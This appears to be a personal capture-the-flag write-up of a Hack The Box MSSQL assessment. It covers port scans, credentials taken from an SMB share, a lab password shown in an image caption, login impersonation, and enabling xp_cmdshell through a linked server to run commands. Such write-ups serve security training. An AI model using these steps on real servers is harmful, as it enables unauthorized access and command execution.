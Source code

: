 # Assessment Hard

## Enumeration

### Rustscan

```
Open 10.129.203.10:135
Open 10.129.203.10:445
Open 10.129.203.10:1433
Open 10.129.203.10:3389

```

### NMAP

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 07:27 EDT
Stats: 0:02:45 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.45% done; ETC: 07:34 (0:04:26 remaining)
Stats: 0:03:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.92% done; ETC: 07:34 (0:03:55 remaining)
Nmap scan report for 10.129.203.10
Host is up (0.20s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.203.10:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.203.10:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-06-29T11:21:57
|_Not valid after:  2053-06-29T11:21:57
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2023-06-28T11:21:47
|_Not valid after:  2023-12-28T11:21:47
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2023-06-29T11:33:29+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (85%)
Aggressive OS guesses: Microsoft Windows Server 2019 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-06-29T11:33:32
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 389.45 seconds

```



<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

We have access to the smb share and got all the files which seems to be credentials of all of them.

* Fiona -> not sure what level and services
* John -> Database (in this box could be MSSQL)
* Simon -> not sure too

Tried Fiona with RDP and got the credentials.

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption><p>Fiona:48Ns72!bns74@S84NNNSl</p></figcaption></figure>

Connected to the RDP session but nothing found. Tried to use the credentials with windows authen to access the mssql

Where able to impersonate to another user using fiona

```
EXECUTE AS LOGIN = 'john'
```

Realized that in John's SMB there was a file hinting to the impersonation and external database (second database).

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption><p>information.txt</p></figcaption></figure>

Found remote database.

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption><p>WINSRV02\SQLEXPRESS</p></figcaption></figure>

But can't select the database server because of the impersonated user are not able to access.

I then realized that I can use the sqlcmd in the rdp session and get the list of users that I could impersonate.

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption><p>john and simon</p></figcaption></figure>

user John doesn't have any more privilege than the user Fiona, I tried to use user Simon and it was able to access the database where Fiona and John can't.

Listing the database gave me 2 different users julio and patric.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>julio and patric</p></figcaption></figure>

I confirmed that both of them are not users of the operating system so the only option left is database user. I could try to access the database with the following user and try to change the database server.

Sadly both of them were unable to make a new connection to the database.

From the Hint on Hack the box forum I realized that the John user was an admin user but on the linked database. By so I could execute command through that server.

<pre class="language-sql"><code class="lang-sql">1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
2> go
<strong>1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'xp_cmdshell', 1;
</strong><strong>2> go
</strong><strong>Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
</strong><strong>1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];     
</strong><strong>2> go
</strong><strong>1> EXECUTE ("xp_cmdshell 'dir C:\Users'") AT [LOCAL.TEST.LINKED.SRV]
</strong><strong>2> go
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption><p>flag</p></figcaption></figure>

This assessment wasn't hard but impossible, given the contents in module, no one who just started the learning path could figure this out without help.
